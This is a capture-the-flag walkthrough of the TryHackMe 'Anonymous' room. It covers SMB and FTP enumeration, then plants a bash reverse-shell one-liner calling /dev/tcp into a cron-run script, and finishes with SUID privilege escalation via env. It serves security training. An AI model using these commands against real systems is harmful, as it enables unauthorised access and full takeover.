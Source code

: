 # [Anonymous TryHackMe Writeup/Walkthrough][1]
Not the hacking group

Try to get the two flags!  Root the machine and prove your understanding of the fundamentals! This is a virtual machine meant for beginners. Acquiring both flags will require some basic knowledge of Linux and privilege escalation methods.

#### Scan the machine.
> If you are unsure how to tackle this, I recommend checking out the [Nmap Tutorials by Hack Hunt][2].

`nmap -sV -Pn <IP>`

![Open Ports](images/open_ports.jpg)

Looks like we have four ports open: `21, 22, 139, 445`.

As SAMBA port is open. Run the SAMBA enumeration scripts. Add command `--script=smb-enum-shares.nse,smb-enum-users.nse`

![Samba Result](images/smb_result.jpg)
> `pics` share is open and we have a read access to it.

Let's connect to PICS shares and see what we have there! CMD -> `smbclinet //<IP>/pics`

![SMB Connect](images/connect_smb.jpg)
> When asked for password, press enter.

There are two files available. Let's download these files to our machine and check the content.

![Get Files](images/get_files.jpg)

These are just images, but what if it has data hidden! I tried `steghide` to extract the content but it requires *passphrase*.

Let's try to connect via `ftp` and check if we can get the *passphrase*. Use credentials `anonymous:anonymous` to login.

![FTP Login](images/ftp_login.jpg)

![FTP Files](images/ftp_files.jpg)

I found three files here. Let's get this files in our machine and check the content.

![Get Files](images/get_ftp_files.jpg)

- to_do.txt -> Haha, Yeah you should!
- remove.sh -> nothing much here.
- clean.sh -> INTERESTING!

![Clean.sh content](images/cat_clean.jpg)
> Seems like file is running periodically as a cronjob. Oh, now the *remove.sh's* content make sense.

We can add a bash one linear in this file and upload it back to the target machine. CMD -> `bash -i >& /dev/tcp/<IP>/4444 0>&1`

![Append Data](images/append_data.jpg)

Start a listener using *netcat*. CMD -> `nc -lvnp 4444`.

Upload the file back to the target machine using `put`.

![Upload Files](images/put_ftp.jpg)

Wait for a while and you will receive a shell.

![Got Shell](images/got_shell.jpg)
> Now that we have the access, let's stabilize the shell.

#### Shell Stable CMDs

```
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm-256-color
```
Press `Ctrl + Z`

```
stty raw --echo
fg
```

As we have the access, we can get the *user flag*.

![User Flag](images/user_flag.jpg)

For basic enumeration, you can download `linPeas` and run it. It will do all your work. Or you can do it manually.

The user is in `lxd` group, that can be use to exploit. [Reference][3]

Check for SUIDs using `find / -perm -type f -exec ls -la {} 2>/dev/null \; | grep "/usr/bin"`

![SUIDs](images/suids.jpg)

Search these one by one on [GTFOBins][4].

I got shell with `env`. CMD -> `/usr/bin/env /bin/sh -p`

![Root Access](images/root_access.jpg)

You know what to do next :stuck_out_tongue_winking_eye:

![Root Flag](images/root_flag.jpg)

[1]: https://tryhackme.com/room/anonymous
[2]: https://www.hackhunt.in/search/label/Nmap
[3]: https://www.exploit-db.com/exploits/46978
[4]: https://gtfobins.github.io/
